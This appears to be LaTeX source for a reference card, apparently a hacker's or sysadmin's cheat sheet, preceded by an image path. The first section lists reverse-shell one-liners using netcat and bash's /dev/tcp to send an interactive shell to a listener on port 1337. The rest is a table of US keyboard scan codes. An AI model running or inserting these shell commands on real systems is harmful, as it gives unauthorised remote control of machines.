 \documentclass{refcard}
\begin{document}
\begin{ldesc}
	 client\$ netcat -vlp 1337
	  \$ sh >\& /dev/tcp/client/1337 0>\&1
	\li[\ \ (colored)]       \$ bash -i >\& /dev/tcp/client/1337 0>\&1
	 \$ netcat -e /bin/sh localhost 1337
	\li[\ \ (colored)]       \$ nc -e "/bin/bash -i" localhost 1337
\end{ldesc}

\pagebreak

\section{Códigos de digitalização do teclado (US QWERTY)}


\newcommand{\ppkey}{\textbackslash{} \textbar}

\begin{tabular}{C@{\hspace{6ex}}llllll}
	   &  &  &  &  &  &  \\[1ex]
	+0 & error  & q      & d      & b      & F6     & KP 2   \\
	+1 & Esc    & w      & f      & n      & F7     & KP 3   \\
	+2 & 1      & e      & g      & m      & F8     & KP 0   \\
	+3 & 2      & r      & h      & , $<$  & F9     & KP Del \\

	+4 & 3      & t      & j      & . $>$  & F10    & SysRq  \\
	+5 & 4      & y      & k      & / ?    & NmLck  & --     \\
	+6 & 5      & u      & l      & RShift & ScLck  & --     \\
	+7 & 6      & i      & : ;    & KP *   & KP 7   & F11    \\

	+8 & 7      & o      & ' "    & LAlt   & KP 8   & F12    \\
	+9 & 8      & p      & ` ~    & Space  & KP 9   & --     \\
	+a & 9      & \{ [   & LShift & CaLck  & KP -   & --     \\
	+b & 0      & ] \}   & \ppkey & F1     & KP 4   & --     \\

	+c & - \_   & Enter  & z      & F2     & KP 5   & --     \\
	+d & + =    & LCtrl  & x      & F3     & KP 6   & --     \\
	+e & Back   & a      & c      & F4     & KP +   & --     \\
	+f & Tab    & s      & v      & F5     & KP 1   & --     \\
\end{tabular}
\end{document}
